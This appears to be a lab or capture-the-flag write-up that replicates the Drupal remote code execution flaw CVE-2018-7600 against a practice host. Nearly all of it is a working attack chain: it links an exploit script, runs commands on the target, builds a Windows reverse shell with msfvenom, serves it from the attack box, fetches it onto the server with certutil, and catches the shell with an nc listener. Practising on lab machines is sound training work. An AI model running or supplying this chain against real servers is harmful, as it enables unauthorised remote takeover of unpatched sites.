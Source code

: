 # CVE Description
Drupal before 7.58, 8.x before 8.3.9, 8.4.x before 8.4.6, and 8.5.x before 8.5.1 allows remote attackers to **execute arbitrary code** because of an issue affecting multiple subsystems with default or common module configurations.

# Payload
https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7600.py

# Step to replicate
## Prepare the payload
Download the payload or click Raw -> Ctrl A + Ctrl C -> gedit drupal.py -> Ctrl + V  
Put drupal.py into /root/transfer/  

## Install required modules
*pip install requests*  
*pip install bs4*

## Test payload
Assumptions:  
Drupal server: http://10.129.170.253  
Attack Box: 10.10.16.18
      
*python3 drupal.py http://10.129.170.253 -c "whoami"*  
[*] Triggering exploit to execute:    
whoami                                                                            
nt authority\iusr                                          

OK so we know the payload works

## Exploitation steps
### Get system info
*python3 drupal.py http://10.129.170.253 -c 'systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"'*

OS Name:                   Microsoft Windows Server 2008 R2 Datacenter  
OS Version:                6.1.7600 N/A Build 7600  
System Type:               x64-based PC

So we know it is x64 system

### Generate reverse shell payload
Go to /root/transfer  
*msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.18 LPORT=443 -f exe > shell.exe*  

### Deliver the reverse shell payload to Drupal server

*python3 -m http.server 80*                                                          
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

*python3 drupal.py http://10.129.170.253 -c 'mkdir c:\temp'*  

*python3 drupal.py http://10.129.170.253 -c 'certutil.exe -urlcache -f http://10.10.16.18/shell.exe c:\temp\shell.exe'*

Open a new Terminal  
*nc - nvlp 443*  

*python3 drupal.py http://10.129.170.253 -c 'c:\temp\shell.exe'*  

Back to the nc screen -> you should see a shell  
*C:\inetpub\drupal-7.54>whoami           
whoami                               
nt authority\iusr*